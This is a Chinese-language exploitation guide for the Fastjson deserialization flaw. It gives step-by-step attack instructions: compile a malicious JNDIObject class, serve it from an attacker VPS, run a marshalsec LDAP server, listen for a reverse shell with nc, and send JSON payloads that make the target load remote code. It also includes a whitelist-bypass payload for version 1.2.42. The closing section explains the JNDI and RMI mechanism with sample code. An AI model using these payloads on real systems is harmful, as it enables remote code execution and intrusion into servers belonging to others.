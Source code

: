 # FastJson反序列化漏洞利用

## 利用条件：

- 基于ldap的利用方式，适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。
- 基于rmi的利用方式，适用jdk版本：JDK 6u132，JDK 7u131，JDK 8u121之前。
- （实战首选ldap，支持的jdk版本较多）
- Fastjson < 1.2.25
- 1.2.24< Fastjson <1.2.48 版本后增加了反序列化白名单，可以利用特殊构造的json字符串绕过白名单检测

## 利用方法：

### 步骤一：测试是否可能存在fastjson反序列化漏洞

使用json格式参数的POST请求，查看请求是否报错和返回结果。

### 步骤二：准备要执行的 Java 恶意代码

修改恶意类代码 [JNDIObject.java](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java) 并编译生成恶意类 JNDIObject.class

```bash
javac JNDIObject.java
```
> ⚠️port为nc监听端口

### 步骤三：搭建http服务传输恶意文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）
```bash
# 使用 python 快速开启 http server
python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```
并将生成的 `JNDIObject.class` 文件拷贝到 该服务的根目录。

### 步骤四：架设恶意类的 ldap 服务

下载 [marshalsec](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/SpringBoot/jolokia%20logback%20JNDI%20RCE/marshalsec-0.0.3-SNAPSHOT-all.jar) ，使用下面命令架设对应的 ldap 服务：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```

> ⚠️恶意类的ldap服务监听端口和poc中访问的接口一致

### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lv 443
```

### 步骤六：修改请求包数据，发送poc

```bash
{
	"b":{
		"@type":"com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName":"ldap://your-vps-ip:1389/JNDIObject",
		"autoCommit":true
	}
}
```
> ⚠️poc中访问的接口和恶意类的ldap服务监听端口一致

### 1.2.42版本绕过
fastjson在1.2.42版本新增了校验机制。如果输入类名的开头和结尾是L和;就将头尾去掉再进行黑名单校验。绕过方法：在类名外部嵌套两层L和;。
原类名：```com.sun.rowset.JdbcRowSetImpl```
绕过：```LLcom.sun.rowset.JdbcRowSetImpl;;```
EXP：
```bash
{           
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://x.x.x.x:1389/JNDIObject",
	"autoCommit":true
}
```
> autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

## 漏洞原理：

1. 首先开启HTTP服务器，并将我们的恶意类放在目录下
2. 开启恶意RMI服务器
3. 攻击者控制url参数为上一步开启的恶意RMI服务器地址
4. 恶意RMI服务器返回ReferenceWrapper类
5. 目标（JNDI_Client）在执行lookup操作的时候，在decodeObject中将ReferenceWrapper变成Reference类，然后远程加载并实例化我们的Factory类（即远程加载我们HTTP服务器上的恶意类），在实例化时触发静态代码片段中的恶意代码

## 漏洞分析：
### JNDI
JNDI是 Java 命名与目录接口（Java Naming and Directory Interface），在J2EE规范中是重要的规范之一。JNDI提供统一的客户端API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用JNDI再局域网上定位一台打印机，也可以用JNDI来定位数据库服务或一个远程Java对象。JNDI底层支持RMI远程对象，RMI注册的服务可以通过JNDI接口来访问和调用。

JNDi是应用程序设计的Api，JNDI可以根据名字动态加载数据，支持的服务主要有以下几种：
```bash
DNS、LDAP、CORBA对象服务、RMI
```
### 利用JNDI References进行注入
对于这个知识点，我们需要先了解RMI的作用。

首先RMI（Remote Method Invocation）是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。这个协议就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。在RMI中对象是通过序列化方式进行编码传输的。RMI服务端可以直接绑定远程调用的对象以外，还可通过References类来绑定一个外部的远程对象，当RMI绑定了References之后，首先会利用Referenceable.getReference()获取绑定对象的引用，并在目录中保存，当客户端使用lookup获取对应名字时，会返回ReferenceWrapper类的代理文件，然后会调用getReference()获取Reference类，最终通过factory类将Reference转换为具体的对象实例。

服务端
```bash
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
	public static void main(String args[]) throws Exception {
		Registry registry = LocateRegistry.createRegistry(1099);
		// Reference需要传入三个参数(className,factory,factoryLocation)
		// 第一个参数随意填写即可，第二个参数填写我们http服务下的类名，第三个参数填写我们的远程地址
		Reference refObj = new Reference("Evil", "EvilObject", "http://127.0.0.1:8000/");
		// ReferenceWrapper包裹Reference类，使其能够通过RMI进行远程访问
		ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
		registry.bind("refObj", refObjWrapper);
	}
}
```

客户端
```bash
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JNDIClient {
	public static void main(String[] args) throws Exception{
		try {
			Context ctx = new InitialContext();
			ctx.lookup("rmi://localhost:8000/refObj");
		}catch (NamingException e) {
			e.printStackTrace();
		}
	}
}
```
如果我们可以控制JNDI客户端中传入的url，就可以起一个恶意的RMI，让JNDI来加载我们的恶意类从而进行命令执行。

我们来看一下References，References类有两个属性，className和codebase url，className就是远程引用的类名，codebase决定了我们远程类的位置，当本地classpath中没有找到对应的类的时候，就会去请求codebase地址下的类（codebase支持http协议），此时如果我们将codebase地址下的类换成我们的恶意类，就能让客户端执行。

ps：在java版本大于1.8u191之后版本存在trustCodebaseURL的限制，只能信任已有的codebase地址，不再能够从指定codebase中下载字节码。


## 漏洞总结：

1. 反序列化常用的两种利用方式，一种是基于rmi，一种是基于ldap。
2. RMI是一种行为，指的是Java远程方法调用。
3. JNDI是一个接口，在这个接口下会有多种目录系统服务的实现，通过名称等去找到相关的对象，并把它下载到客户端中来。
4. ldap指轻量级目录服务协议。
